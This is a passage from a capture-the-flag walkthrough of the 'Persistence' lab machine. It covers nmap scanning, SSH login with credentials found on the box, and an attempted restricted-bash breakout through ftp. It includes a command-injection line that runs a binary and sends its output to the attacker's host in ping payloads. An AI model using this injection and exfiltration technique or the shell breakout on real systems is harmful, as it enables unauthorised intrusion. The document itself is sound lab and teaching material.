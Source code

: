 From this alone we can deduce that when run, it may modify the firewall. It also looks like it contains some credentials, so I took note of those too. I then tried to run the command, followed by a nmap scan:

```bash Ping pattern `id` command
;./sysadmin-tool --activate-service| xxd -p -c 16 | while read line; do ping -p $line -c 1 -q 192.168.56.102; done
```

```bash second nmap of Persistence
root@kali:~# nmap 192.168.56.104 --reason -sV -p-

Starting Nmap 6.46 ( http://nmap.org ) at 2014-09-18 09:46 SAST
Nmap scan report for 192.168.56.104
Host is up, received reset (0.0017s latency).
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 5.3 (protocol 2.0)
80/tcp open  http    syn-ack nginx 1.4.7

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6637.05 seconds
```

Yay! SSH.

##shell and breakout as avida
Using the information that looked like credentials retrieved in the previous section, I proceeded to SSH into the server:

```bash avida rbash
root@kali:~/Desktop/persistence# ssh avida@192.168.56.104
The authenticity of host '192.168.56.104 (192.168.56.104)' can't be established.
RSA key fingerprint is 37:22:da:ba:ef:05:1f:77:6a:30:6f:61:56:7b:47:54.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.104' (RSA) to the list of known hosts.
avida@192.168.56.104's password:    # dollars
Last login: Thu Sep 18 05:57:30 2014
-rbash-4.1$
```

Op success. Or is it? I immediately noticed the prompt as `rbash`, aka restricted bash. :( Having a look around, I was in fact very limited to what I can do. Most annoyingly, I was unable to run commands with a `/` in them.

```bash rbash restrictions
-rbash-4.1$ /bin/bash
-rbash: /bin/bash: restricted: cannot specify `/' in command names
```

So the next logical step was to attempt 'breaking out' of this shell so that I can have a better look around. I was able to cat say `/etc/passwd`, but that only gets you _that_ far :P

After quite some time and some research, it became apparent that the well known breakouts from rbash are not possible.  I was unable to edit my PATH, change files and re-login or use the classic `vi` `:shell` breakout. Eventually (and out of desperation), I focussed my attention to `ftp`. Opening `ftp`, and typing `help` at the prompt, I studied each available command carefully. In the list was a exclamation mark(!), which I typed and pressed enter:
